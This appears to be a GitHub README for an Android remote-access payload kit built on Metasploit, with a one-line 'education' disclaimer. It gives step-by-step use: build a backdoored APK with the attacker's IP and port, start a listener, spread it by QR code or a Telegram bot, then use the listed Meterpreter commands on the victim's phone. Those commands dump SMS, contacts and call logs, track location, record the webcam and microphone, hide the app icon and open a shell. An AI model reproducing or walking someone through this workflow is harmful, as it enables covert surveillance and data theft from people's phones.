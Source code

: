 # Android_payload
For only Education perpouse 
First install setup.sh using 
bash setup.sh

after this
use 

bash mhzone.sh

choose number 1 to make a Payload 
choose number 2 to to start listener
choose number 3 to make QR code choose number 4 to upload payload on telegram 

how to make payload 
choose number 1 and enter your IP address if you don't know about it you use 127.0.0.1
no type your port default if 4444
you choose anyone 
no set your app name 
it will go into your storage/ emulated/0 place 


now a time to assess device 
choose 2 option
and press enter 
enter l hist #example 127.0.0.1
lport #example 4444
it start automatically wait for 2 to 5 minute 
how to asst their file 
you type help on metaspolit 


Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter s
                              cript
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as
                               a background thread
    channel                   Displays information or control
                              active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (
                              for http/https)
    disable_unicode_encoding  Disables encoding of unicode str
                              ings
    enable_unicode_encoding   Enables encoding of unicode stri
                              ngs
    exit                      Terminate the meterpreter sessio
                              n
    get_timeouts              Get the current session timeout
                              values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Pos
                              t module
    irb                       Open an interactive Ruby shell o
                              n the current session
    load                      Load one or more meterpreter ext
                              ensions
    machine_id                Get the MSF ID of the machine at
                              tached to the session
    pry                       Open the Pry debugger on the cur
                              rent session
    quit                      Terminate the meterpreter sessio
                              n
    read                      Reads data from a channel
    resource                  Run the commands stored in a fil
                              e
    run                       Executes a meterpreter script or
                               Post module
    secure                    (Re)Negotiate TLV packet encrypt
                              ion on the session
    sessions                  Quickly switch to another sessio
                              n
    set_timeouts              Set the current session timeout
                              values
    sleep                     Force Meterpreter to go quiet, t
                              hen re-establish session
    transport                 Manage the transport mechanisms
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current ses
                              sion
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command                   Description
    -------                   -----------
    cat                       Read the contents of a file to t
                              he screen
    cd                        Change directory
    checksum                  Retrieve the checksum of a file
    cp                        Copy source to destination
    del                       Delete the specified file
    dir                       List files (alias for ls)
    download                  Download a file or directory
    edit                      Edit a file
    getlwd                    Print local working directory (a
                              lias for lpwd)
    getwd                     Print working directory
    lcat                      Read the contents of a local fil
                              e to the screen
    lcd                       Change local working directory
    ldir                      List local files (alias for lls)
    lls                       List local files
    lmkdir                    Create new directory on local ma
                              chine
    lpwd                      Print local working directory
    ls                        List files
    mkdir                     Make directory
    mv                        Move source to destination
    pwd                       Print working directory
    rm                        Delete the specified file
    rmdir                     Remove directory
    search                    Search for files
    upload                    Upload a file or directory


Stdapi: Networking Commands
===========================

    Command                   Description
    -------                   -----------
    ifconfig                  Display interfaces
    ipconfig                  Display interfaces
    portfwd                   Forward a local port to a remote
                               service
    route                     View and modify the routing tabl
                              e


Stdapi: System Commands
=======================

    Command                   Description
    -------                   -----------
    execute                   Execute a command
    getenv                    Get one or more environment vari
                              able values
    getpid                    Get the current process identifi
                              er
    getuid                    Get the user that the server is
                              running as
    localtime                 Displays the target system local
                               date and time
    pgrep                     Filter processes by name
    ps                        List running processes
    shell                     Drop into a system command shell
    sysinfo                   Gets information about the remot
                              e system, such as OS


Stdapi: User interface Commands
===============================

    Command                   Description
    -------                   -----------
    screenshare               Watch the remote user desktop in
                               real time
    screenshot                Grab a screenshot of the interac
                              tive desktop


Stdapi: Webcam Commands
=======================

    Command                   Description
    -------                   -----------
    record_mic                Record audio from the default mi
                              crophone for X seconds
    webcam_chat               Start a video chat
    webcam_list               List webcams
    webcam_snap               Take a snapshot from the specifi
                              ed webcam
    webcam_stream             Play a video stream from the spe
                              cified webcam


Stdapi: Audio Output Commands
=============================

    Command                   Description
    -------                   -----------
    play                      play a waveform audio file (.wav
                              ) on the target system


Android Commands
================

    Command                   Description
    -------                   -----------
    activity_start            Start an Android activity from a
                               Uri string
    check_root                Check if device is rooted
    dump_calllog              Get call log
    dump_contacts             Get contacts list
    dump_sms                  Get sms messages
    geolocate                 Get current lat-long using geolo
                              cation
    hide_app_icon             Hide the app icon from the launc
                              her
    interval_collect          Manage interval collection capab
                              ilities
    send_sms                  Sends SMS from target session
    set_audio_mode            Set Ringer Mode
    sqlite_query              Query a SQLite database from sto
                              rage
    wakelock                  Enable/Disable Wakelock
    wlan_geolocate            Get current lat-long using WLAN
                              information


Application Controller Commands
===============================

    Command                   Description
    -------                   -----------
    app_install               Request to install apk file
    app_list                  List installed apps in the devic
                              e
    app_run                   Start Main Activity for package
                              name
    app_uninstall             Request to uninstall application

For more info on a specific command, use <command> -h or help <command>.








if you want to upload this file on telegram you need to make your telegram using batfather first enter your bot token second enter chat ID it will auto upload on your bot
